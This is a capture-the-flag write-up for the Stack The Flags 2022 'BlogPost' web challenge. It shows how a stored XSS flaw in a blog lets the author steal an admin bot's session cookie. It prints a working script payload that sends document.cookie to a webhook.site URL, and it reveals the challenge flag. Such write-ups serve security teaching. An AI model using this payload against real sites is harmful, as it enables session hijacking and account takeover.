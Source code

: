 # Stack The Flags 2022: BlogPost

![Contest Date: 02.12.2022](https://img.shields.io/badge/Contest%20Date-02.12.2022-lightgrey.svg)
![Solve Moment: During The Contest](https://img.shields.io/badge/Solve%20Moment-During%20The%20Contest-brightgreen.svg)
![Difficulty: Easy](https://img.shields.io/badge/Difficulty-Easy-brightgreen)

## Description

> Jaga created an internal social media platform for the company, can you leak anyone's information?



## Attached Files

- [Source code](https://github.com/seanLimWeiRen/STF22_writeups/tree/main/Web/BlogPost/attached_files)

## Summary

We use XSS to steal the admin's cookies

## Flag

```
STF22{s1mpl3_p0st_xSs_:)}
```

## Detailed Solution

Upon visiting the website and clicking one "Login", we are greeted with a login page which gives us a link to register an account.

![1.png](images/1.png)

After registering an account and logging in with it, we can see that an admin has created a post, providing us with the information that there is an admin account and we might need to gain access to it.

![2.png](images/2.png)

### Finding the vulnerability

I tried to login to the admin account with SQL injection, but it did not work

![3.png](images/3.png)

Read more about SQL injection ![here](https://portswigger.net/support/using-sql-injection-to-bypass-authentication)

Luckily, one of the first things that I thought to test was XSS, so I used `<script>alert('xss')</script>` to test if it was vulnerable.

![4.png](images/4.png)

Indeed, the alert box popped up to show that the blog was vulnerable to XSS

![5.png](images/5.png)

#### How does XSS work? (for beginners)

XSS works by manipulating a website to return possibly malicious javascript code to its users, and it is run on the web browsers of the victim(s).
Using the example from earlier, the `<script>` and `</script>` tags are used to embed a client-side script, while `alert('xss')` simply gives us a popup with the text "xss"

### Exploiting the vulnerability

Remember when I mentioned that we could try to gain access to the admin account? That's exactly what we need to do with XSS.
Because your session data is stored in your cookies, we need to exfiltrate the session cookie.

For this, we can either use ![webhook.site](https://webhook.site) or ![PostBin](https://www.toptal.com/developers/postbin/), both work perfectly fine but I prefer to use webhook.site

With the information I had, I created this payload:
```
<script>javascript:document.location='https://webhook.site/55b56003-41e1-481d-8865-4e5463f746d4?cookie='+document.cookie;</script>
```
Don't worry if you don't know what this means, I'll break it down.

#### How does this work?

When a user views the blog, they will be forcefully redirected to `https://webhook.site/55b56003-41e1-481d-8865-4e5463f746d4`, with their session cookie being sent along as well. The website then logs it and we can view it.

#### The fun part

![6.png](images/6.png)


Now, when we create the post and go to the webhook.site website, we can see that there are 2 GET requests 

![7.png](images/7.png)

One is from our browser, and the other is from the bot/admin
When we look at the query strings from the bot, we can get our flag.

![8.png](images/8.png)

```
STF22{s1mpl3_p0st_xSs_:)}
```


